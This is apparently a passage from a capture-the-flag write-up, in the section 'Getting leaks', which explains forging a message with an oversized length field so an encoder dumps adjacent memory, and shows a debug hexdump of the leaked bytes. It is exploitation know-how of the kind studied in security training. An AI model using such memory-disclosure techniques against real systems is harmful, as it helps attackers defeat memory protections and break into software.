 ![](./fig/Satisfaction.png)

### Getting leaks

Great, we can jump anywhere, but where do we want to jump?
We need to leak some addresses.
To obtain a first leak, I used a forged message to the encoder.
The encoder reads the first two bytes of a message to know its size, so by sending a message to the encoder with a large size, we can dump whatever is in memory after the message.
Let's try it out:
```
[DEBUG] Receiving :
    00000000  44 44 44 44  44 44 44 44  44 44 44 44  44 44 00 00  │DDDD│DDDD│DDDD│DD··│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  35 00 00 00  │····│····│····│5···│
    00000020  00 00 00 00  1b 80 73 90  07 00 00 00  0d ed a0 99  │····│··s·│····│····│
    00000030  94 ce a6 3d  41 41 41 41  41 41 41 41  41 41 00 00  │···=│AAAA│AAAA│AA··│
    00000040  00 00 00 00  00 00 00 00  00 00 00 00  35 00 00 00  │····│····│····│5···│
    00000050  00 00 00 00  9b 38 72 a8  00 79 00 00  0d ed a0 99  │····│·8r·│·y··│····│
    00000060  94 ce a6 3d  41 41 41 41  41 41 41 41  41 41 00 00  │···=│AAAA│AAAA│AA··│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  35 00 00 00  │····│····│····│5···│
    00000080  00 00 00 00  eb 3c 72 a8  00 79 00 00  0d ed a0 99  │····│·<r·│·y··│····│
    00000090  94 ce a6 3d  41 41 41 41  41 41 41 41  41 41 00 00  │···=│AAAA│AAAA│AA··│
    000000a0  00 00 00 00  00 00 00 00  00 00 00 00  35 00 00 00  │····│····│····│5···│
```